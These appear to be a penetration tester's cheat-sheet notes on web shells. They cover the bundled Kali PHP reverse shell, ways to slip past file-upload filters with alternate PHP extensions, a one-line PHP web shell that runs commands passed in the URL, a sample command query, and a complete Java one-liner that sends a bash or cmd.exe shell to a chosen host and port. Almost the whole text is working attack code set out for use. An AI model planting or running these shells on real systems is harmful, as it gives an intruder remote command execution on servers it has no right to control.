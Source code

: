 /usr/share/webshells/

[[Reverse Shell#Reverse shell cheat sheet]]

## PHP Reverse Shell
PHP reverse shell:
Open and edit IP and port
can change to different PHP if blocked (.php3, .phtml)
Can use burpsuite Intruder - sniper to check which are accepted

```
/usr/share/webshells/php/php-reverse-shell.php
```

Copy to current directory
```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

```
<?php
	echo system($_GET["cmd"]);
?>
```
Add to URL to file
```
?cmd=id;whoami;ls /var/www/;
```

- Stabilise if possible
[[Reverse Shell#Shell Stabalisation]]

## Java Reverse Shell
```
String host="localhost";

int port=8044;

		WINDOWS                     LINUX
String cmd="cmd.exe";   OR   String cmd="/bin/bash"; 

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
